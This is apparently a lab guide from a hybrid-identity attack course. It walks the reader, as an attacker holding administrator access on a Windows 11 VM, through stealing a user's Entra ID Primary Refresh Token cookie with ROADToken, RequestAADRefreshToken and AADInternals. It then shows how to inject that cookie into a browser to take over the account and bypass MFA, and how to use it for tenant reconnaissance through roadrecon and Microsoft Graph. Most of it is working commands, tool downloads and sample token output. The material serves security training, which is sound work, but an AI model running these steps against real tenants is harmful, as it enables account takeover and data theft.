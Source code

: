 # Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you see `AzureAdPrt : YES`
   ![prt](prtexists.png)

3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie

**Notes:** 
- This method will bypass MFA only if the user has authenticated using MFA in its Windows
- PRT Cookie can only be used once and its TTL is short

**Prep:**
Download from inside the Win11 VM [ROADToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/ROADToken.exe)

#### Option 1: Steal PRT Cookie using roadrecon tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
# download Firefox and install automatically
$ProgressPreference = 'SilentlyContinue'    
$firefoxUrl = "https://download.mozilla.org/?product=firefox-latest&os=win64&lang=en-US"
$destination = "$env:TEMP\firefox_installer.exe"
Invoke-WebRequest -Uri $firefoxUrl -OutFile $destination -UseBasicParsing -Force
Start-Process -FilePath $destination -ArgumentList "/S" -Wait
Remove-Item $destination


# Define the download URL and the paths
$zipUrl = "https://github.com/mozilla/geckodriver/releases/download/v0.35.0/geckodriver-v0.35.0-win32.zip"
$tempZipPath = "$env:TEMP\geckodriver.zip"
$extractPath = "$env:TEMP\geckodriver"
$destinationPath = "C:\Windows"

# Download the ZIP file
Invoke-WebRequest -Uri $zipUrl -OutFile $tempZipPath -UseBasicParsing

# Create a temporary folder to extract the ZIP file
New-Item -Path $extractPath -ItemType Directory -Force

# Extract the ZIP file
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($tempZipPath, $extractPath)

# Move the extracted files to the destination
Move-Item -Path "$extractPath\*" -Destination $destinationPath -Force

# Clean up the temporary files
Remove-Item $tempZipPath
Remove-Item $extractPath -Recurse

Write-Output "Geckodriver has been downloaded, extracted, and placed in $destinationPath"

```

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadtx browserprtauth -url https://entra.microsoft.com --prt-cookie <eyJh... PRT COOKIE>
```

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool

Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

**Prep:** Download from inside the Win11 VM [RequestAADRefreshToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/RequestAADRefreshToken.exe)
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
Import-Module AADInternals
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken
```

### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

See demo video [here](stealPrtCookie.mp4)

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for msgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

### Feeling comfortable? go to the next lab!
